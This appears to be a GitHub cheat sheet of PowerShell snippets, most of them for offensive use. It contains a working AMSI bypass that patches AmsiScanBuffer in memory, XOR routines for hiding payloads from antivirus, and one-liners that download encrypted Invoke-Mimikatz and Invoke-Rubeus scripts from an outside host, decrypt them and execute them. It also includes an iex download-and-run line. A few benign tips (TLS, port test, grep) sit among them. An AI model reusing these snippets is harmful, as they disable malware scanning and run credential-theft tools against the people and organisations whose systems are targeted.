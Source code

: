 # Table of Contents
- [Enable support of TLS 1.2](#enable-support-of-tls-12)
- [Download a script from an HTTP server](#download-a-script-from-an-http-server)
- [Test on open/close port](#test-on-openclose-port)
- [Patching amsi.dll AmsiScanBuffer by rasta-mouse](#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
- [Payload encryption/decryption](#payload-encryptiondecryption)
  * [Encryption (not secure)](#encryption-not-secure)
  * [Decryption](#decryption)
- [How to grep in PowerShell](#how-to-grep-in-powershell)

# Enable support of TLS 1.2
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

# Download a script from an HTTP server
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/microsoft/ExPerfAnalyzer/main/ExPerfAnalyzer.ps1')
```

# Test on open/close port
```powershell
Test-NetConnection -Port 389 -InformationLevel "Detailed" <ip> 
```
- [Test-NetConnection](https://docs.microsoft.com/en-us/powershell/module/nettcpip/test-netconnection)

# Patching amsi.dll AmsiScanBuffer by rasta-mouse
```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
- [AMSI.fail](https://amsi.fail/)
- [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [A Detailed Guide on AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/)
- [Small modification to Rastemouse's AmsiScanBuffer bypass to use bytes.](https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998)


# Payload encryption/decryption
## Encryption (cryptographically insecure)
```powershell
$FileIn = "C:\Windows\System32\calc.exe"
$FileOut = "C:\calc.exe.encrypted"
$Seed = 42 # seed between 0 and 2147483647

$Bytes = [io.file]::ReadAllBytes($FileIn) # Get-Content -Path $File -Encoding byte -Raw 

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

[io.file]::WriteAllBytes($FileOut,$Bytes)
```
## Decryption
```powershell
$FileIn = "C:\calc.exe.encrypted"
$FileOut = "C:\calc.exe"
$Seed = 42 # seed between 0 and 2147483647

$Bytes = [io.file]::ReadAllBytes($FileIn) # Get-Content -Path $File -Encoding byte -Raw 

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

[io.file]::WriteAllBytes($FileOut,$Bytes)
```

### Decrypt and invoke Invoke-Rubeus.ps1 in PowerShell
```powershell
$Bytes = (New-Object Net.WebClient).DownloadData('https://github.com/okazymyrov/piki/blob/master/Invoke-Rubeus.ps1.encrypted?raw=true')
$Seed = 42 # seed between 0 and 2147483647

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

Invoke-Expression $([System.Text.Encoding]::ASCII.GetString($Bytes))
```

### Decrypt and invoke Invoke-Mimikatz.ps1 in PowerShell
```powershell
$Bytes = (New-Object Net.WebClient).DownloadData('https://github.com/okazymyrov/piki/blob/master/Invoke-Mimikatz.ps1.encrypted?raw=true')
$Seed = 42 # seed between 0 and 2147483647

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

Invoke-Expression $([System.Text.Encoding]::ASCII.GetString($Bytes))
```

### Decrypt and invoke Invoke-Mimikatz.ps1 from the disk
```powershell
$FileIn = "C:\Users\Administrator\Downloads\Invoke-Mimikatz.ps1.encrypted"
$Seed = 42 # seed between 0 and 2147483647

$Bytes = [io.file]::ReadAllBytes($FileIn) # Get-Content -Path $File -Encoding byte -Raw 

Get-Random -SetSeed $Seed -Maximum 255 -Minimum 0
for($i=0;$i -lt $Bytes.Length;$i++)
{
    $Bytes[$i] = $Bytes[$i] -bxor (Get-Random -Maximum 256 -Minimum 0)
}

Invoke-Expression $([System.Text.Encoding]::ASCII.GetString($Bytes))
```

# How to grep in PowerShell 

## Log files in the current directory
```powershell
Select-String -Path "*.log" -Pattern "EMAIL_ADDRESS"
```
- [How to Use PowerShell Grep (Select-String)](https://adamtheautomator.com/powershell-grep/)

## All files recursively
```powershell
Get-ChildItem -Recurse | Select-String -Pattern "EMAIL_ADDRESS" -List
```

# 128-bit password
```powershell
New-Guid
```
